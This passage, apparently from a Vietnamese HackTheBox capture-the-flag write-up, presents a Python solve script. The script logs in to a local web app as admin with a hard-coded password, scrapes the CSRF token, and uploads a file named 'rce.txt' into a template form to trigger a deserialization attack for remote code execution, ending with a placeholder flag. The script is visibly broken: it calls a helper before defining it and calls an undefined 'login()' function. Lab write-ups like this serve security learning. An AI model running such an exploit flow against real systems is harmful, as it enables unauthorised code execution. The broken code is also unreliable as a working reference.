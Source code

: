 Và ta có solve script như sau 
                                   
```python
import requests
from bs4 import BeautifulSoup

username = "admin"
password = "mhzoegjhzenvwkdxfzacouooulqculcx"
base_url = "http://127.0.0.1:1337"
session = requests.Session()

login_page = session.get(f"{base_url}/login")
login_page.raise_for_status()
authenticity_token = getAuthenToken(login_page.text)
login_payload = {
    "username": username,
    "password": password,
    "authenticity_token": authenticity_token
}
response = session.post(f"{base_url}/login", data=login_payload)
response.raise_for_status()

def getAuthenToken(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("input", {"name": "authenticity_token"})["value"]
                                   
def deserialization(typd):
    with open(typd, "rb") as file:
        content_data = file.read()
    contracts_page = session.get(f"{base_url}/contract_templates/new")
    contracts_page.raise_for_status()
    authenticity_token = getAuthenToken(contracts_page.text)
    contracts_payload = {
        "authenticity_token": authenticity_token,
        "name": "a",
        "description": "a",
        "content": "a",
        "commit": "Create Template",
        "data": content_data
    }
    response = session.post(f"{base_url}/contract_templates", data=contracts_payload)
    response.raise_for_status()
login()
deserialization('rce.txt')                                   
```
                                 
Chạy file và ta có flag
    
![image](https://hackmd.io/_uploads/SJqg0eiS1g.png)

Flag : HTB{f4k3_fl4g_f0r_t3st1ng}
